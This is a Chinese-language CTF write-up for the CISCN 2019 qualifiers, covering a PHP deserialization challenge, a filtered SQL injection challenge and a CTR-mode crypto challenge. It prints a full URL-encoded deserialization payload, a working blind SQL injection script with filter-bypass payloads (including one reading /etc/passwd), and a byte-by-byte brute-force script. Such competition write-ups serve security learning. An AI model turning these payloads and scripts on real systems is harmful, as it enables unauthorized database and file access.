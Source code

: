 ```yaml
---
title: Ciscn 2019 初赛 Writeup
date: 2019-04-25 00:23:14
tags: [writeup]
---
```


输出了两题 web + 一题 crypto, 太菜了 QAQ  
因为也是要交上去的, 就写的比较简单了.  

<!--more-->

## JustSoso

根据html内的提示, `php://filter/read=convert.base64-encode/resource=index.php`  
和 `php://filter/read=convert.base64-encode/resource=hint.php` 得到源码,  
之后代码审计.  

1. 通过 ///index.php 使 parse_url 返回 false, 绕过 payload 内不能有 flag 的限制
2. 通过引用的方式, 绕过 $this->token === $this->token_flag
3. 将序列化后的字符串 `"Handle":1` 的改为 2, 使其反序列时不调用 __wakeup 魔术方法, 让 handler 正常调用

最后 payload:  
`http://fe95bbad6a4f406cbd981c3496fb83f2be3784a02dfb46d1.changame.ichunqiu.com///index.php?file=hint.php&payload=O%3A6%3A%22Handle%22%3A2%3A%7Bs%3A14%3A%22%00Handle%00handle%22%3BO%3A4%3A%22Flag%22%3A3%3A%7Bs%3A4%3A%22file%22%3Bs%3A8%3A%22flag.php%22%3Bs%3A10%3A%22token_flag%22%3Bs%3A32%3A%226754e06e46dfa419d5afe3c9781cecad%22%3Bs%3A5%3A%22token%22%3BR%3A4%3B%7D%7D`


## 全宇宙最简单的SQL

尝试 `admin'asdasd` 返回数据库操作失败, 说明存在注入漏洞,  
尝试盲注但是发现 `benchmark` 和 `sleep` 全部被替换为 `QwQ`, 随即尝试布尔注入,  
发现 `if` 和 `case` 也被过滤. 最后用短路求值的方式代替 if, 并用 `exp(710)` 产生错误,  
如果前面语句返回 true, 将返回数据库操作失败, 如果前面语句返回 false, 返回账号登录失败. 且表名为常见名称 user,  
列名通过虚表的方式绕过.

```python
import requests
import string
from tqdm import tqdm
# url = "http://0d3316846cd2408dbfdf95808c03f3f5714e7d9655ee4d4e.changame.ichunqiu.com/"
url = "http://106.119.182.216/"
# username=asd'/**/and/**/1=(SELECT/**/database()/**/like/**/'z')/**/and/**/exp(710)#&password=admin
sess = requests.session()
sess.headers["Host"] = "0d3316846cd2408dbfdf95808c03f3f5714e7d9655ee4d4e.changame.ichunqiu.com"
# database: ctf
# table: user
# 2 col
# /fll1llag_h3r3 2,F1AG@1s-at_/fll1llag_h3r3
# f"asd'/**/and/**/1=(SELECT/**/version()/**/like/**/'{i}')/**/and/**/exp(710)#",
# asd'/**/and/**/1=(select(SELECT/**/group_concat(`1`)/**/from/**/(select/**/1,2/**/union/**/select/**/*/**/from/**/user)asd)/**/like/**/'a%')/**/and/**/exp(710)#
# f"asd'/**/and/**/1=(select(SELECT/**/hex(group_concat(`2`))/**/from/**/(select/**/1,2/**/union/**/select/**/*/**/from/**/user)asd)/**/like/**/'{tmp}%')/**/and/**/exp(710)#",
# f"asd'/**/and/**/1=(select/**/load_file(0x2f6574632f706173737764)/**/like/**/'{tmp}')/**/and/**/exp(710)#",
#table = string.printable[:-5]
#table = table.replace("%", '')
#table = table.replace("'", "")
#table = table.replace("\\", "")
table = "0123456789ABCDEF"
curr = ''
for _ in range(999):
    for i in tqdm(table):
        tmp = curr + i + "%"
        data = {
            "username": f"asd'/**/and/**/1=(select(SELECT/**/hex(group_concat(`2`))/**/from/**/(select/**/1,2/**/union/**/select/**/*/**/from/**/user)asd)/**/like/**/'{tmp}%')/**/and/**/exp(710)#",
            "password": "admin"
        }
        success = False
        while not success:
            try:
                res = sess.post(url, data, timeout=2)
                success = True
            except Exception:
                pass
        res = res.content
        res = res.decode('utf-8')
        if "数据库操作" in res:
            curr += i
            print(curr)
            break
        if i == table[-1]:
            raise Exception
```
![](https://i.loli.net/2019/04/25/5cc08eb862dd6.png#center)

最后得到 admin 的密码为 `F1AG@1s-at_/fll1llag_h3r3`, 尝试直接 load_file读取失败.  
应该是没有权限, 随即在web上尝试登录admin, 发现是 mysql 客户端连接并执行语句的服务.  
猜测有客户端读任意文件的漏洞, 可以直接拿到flag文件.

![](https://i.loli.net/2019/04/25/5cc08eb884ce6.png#center)

![](https://i.loli.net/2019/04/25/5cc08eb889b62.png#center)


## warmup

题目采用的是 CTR 模式, 而且每次加密采用同一计数器,  
只要第一次发送空, 之后每次爆破一位比对是否与第一次对应位置的值相同即可.  

```python
from remoteCLI import CLI
from binascii import unhexlify
import string
from tqdm import tqdm

result = r'result>([0-9a-f]{0,})'

cli = CLI()
cli.connect("fc32f84bc46ac22d97e5f876e3100922.kr-lab.com", 12345)
cli.sendLine('')
res = cli.recvUntilFind(result)[0]
flag = unhexlify(res)
flagLen = len(flag)
table = string.printable[:-5]
curr = ''
for seq in range(flagLen):
    for i in tqdm(table):
        cli.sendLine(curr + i)
        res = cli.recvUntilFind(result)[0]
        res = unhexlify(res)
        if res[seq] == flag[seq]:
            curr += i
            print(curr)
            break
```